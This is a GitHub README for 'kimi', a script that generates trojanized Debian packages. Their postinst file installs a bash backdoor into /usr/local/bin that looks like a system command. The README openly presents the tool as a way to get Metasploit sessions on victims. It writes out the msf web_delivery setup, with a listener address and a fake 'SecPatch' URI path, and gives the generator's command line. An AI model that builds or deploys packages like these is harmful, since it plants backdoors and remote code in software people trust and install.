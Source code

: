 # kimi - Malicious Debian Package generator
Script to generate malicious debian packages (debain trojans).

# About & Plus points & Usage & Tested On :::
    Kimi is name inspired from "Kimimaro" one of my favriote charater from anime called "Naruto".

    Kimi is a script which generates Malicious debian package for metasploit
    which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
    
    Backdoor gets executed just when victim tries to install deb package due to postinst file
    
    Bash file injects and also acts like some system command which when executed by victim 
    and attacker hits with session.
    
    Plus Points :
    -- Fully indiependent. Means user no need to install any debian package creator
    -- Can be integrated with any payload generator easily due to engagements of arguemt (lame :P i know) 
    
    Kimi basically depends upon web_delivery module and every thing is automated. 
    all the attacker needs is to do following settings :
    
    Setting up Web_Delivery in msf :
    
    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > set srvhost 192.168.0.102
    srvhost => 192.168.0.102
    msf exploit(web_delivery) > set uripath /SecPatch
    uripath => /SecPatch
    msf exploit(web_delivery) > set Lhost 192.168.0.102
    Lhost => 192.168.0.102
    msf exploit(web_delivery) > show options
    msf exploit(web_delivery) > exploit
    
    Generating Malicious payload :
    
    dreamer@mindless ~/Desktop/projects/kimi $ sudo python kimi.py -n nano -l 127.0.0.1 -V 1.0
    
    NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
    It can be used standalone also all user needs is to change uripath in msf variables
    -------------------------------------------------------------------------------------
    
    Tested on :
                Linux Mint 17.2 Cinnamon (Ubuntu 14.04) 
                ParrotOS (Debian Jessie)
                Kali Rolling 2.0
# Updates :::
    -- Added "postinst" file creation function to make embeded malicious file execution automated
    -- Added RC file generation function to fully automate with handler opening, means no need to 
        set handler manually
    -- Patched some common bugs [special thanks to r00t 3xp10it :)]

# ScreenShots :::

![Main Banner](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/main_banner1.1.png)
![Kimi In Action](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/exploiting1.1.png)

# Misc :::
       Blog Post     : http://hackinguyz.blogspot.in/2017/03/kimi-malicious-debian-package-creator.html
       YouTube Video : https://youtu.be/Dsn6BRHy9_w  

# Shouts to :::
  Suspicious Shell Activity [Red Team]
# Doubts? Insults?
   Twitter : @bofheaded 
    | Wrote while listening jams of Vidya VOX ;) 
